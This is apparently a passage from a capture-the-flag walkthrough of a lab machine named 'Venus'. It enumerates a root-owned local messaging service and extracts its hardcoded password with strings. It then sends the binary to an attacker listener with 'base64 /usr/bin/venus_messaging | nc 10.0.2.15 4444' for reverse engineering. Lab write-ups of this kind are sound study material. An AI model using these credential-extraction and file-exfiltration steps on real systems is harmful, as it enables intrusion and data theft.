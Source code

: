 Ok, looks like we have internal service which wants a password..

`ss` doesn't show the running process, probably because of permissions. If we filter `ps` we can find the relate
```bash
[magellan@venus ~]$ ss -tulnp4 | grep 9080
tcp   LISTEN 0      3            0.0.0.0:9080      0.0.0.0:*
[magellan@venus ~]$ ps aux | grep venus
root         764  0.0  0.0   2384   744 ?        Ss   15:08   0:00 /usr/bin/venus_messaging
magellan     766  0.0  0.1   6904  3096 ?        Ss   15:08   0:00 /bin/bash /usr/bin/venus_monitoring_web.sh
magellan     776  0.0  1.8  45948 36756 ?        S    15:08   0:01 /usr/bin/python3 /home/magellan/venus_monitor_proj/manage.py runserver 0:8080
magellan     842  7.8  2.4 618028 49044 ?        Sl   15:08   9:43 /usr/bin/python3 /home/magellan/venus_monitor_proj/manage.py runserver 0:8080
magellan  109262  0.0  0.0   6140   836 pts/0    S+   17:11   0:00 grep --color=auto venus
```

Using strings we identifed probable password, after trying it it worked. But now we are stuck in infinite loop of `Enter Message`
```bash
[magellan@venus ~]$ strings /usr/bin/venus_messaging  | grep -viE '^(\.|_|GA)|libc|gcc|3g965'
...
accept
strcmp
[]A\A]A^A_
loveandbeauty # <--
Socket creation failed.
setsockopt failed.
...
[magellan@venus ~]$ nc 127.0.0.1 9080
Welcome to the Venus messaging service.
To continue, please enter your password:loveandbeauty
Access granted, you can now send messages to the Venus space station.
Please enter message to be processed:
hallo
Message sent to the Venus space station.
Enter message:
hallo
Message sent to the Venus space station.
Enter message:
^C
```

It's an ELF file, so some Reverse Engineering will be required :/
```bash
[magellan@venus ~]$ file /usr/bin/venus_messaging
/usr/bin/venus_messaging: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=507e0f11fb7b76b7b944cc5799d1cf9723ab4caa, for GNU/Linux 3.2.0, not stripped
```

Download file:
```
[magellan@venus ~]$ base64 /usr/bin/venus_messaging | nc 10.0.2.15 4444
---
└─$ listen > venus_messaging.base64
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [::]:4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.0.2.19:45452.
└─$ cat venus_messaging.base64 | base64 -d > venus_messaging.elf
└─$ chmod u+x venus_messaging.elf
```
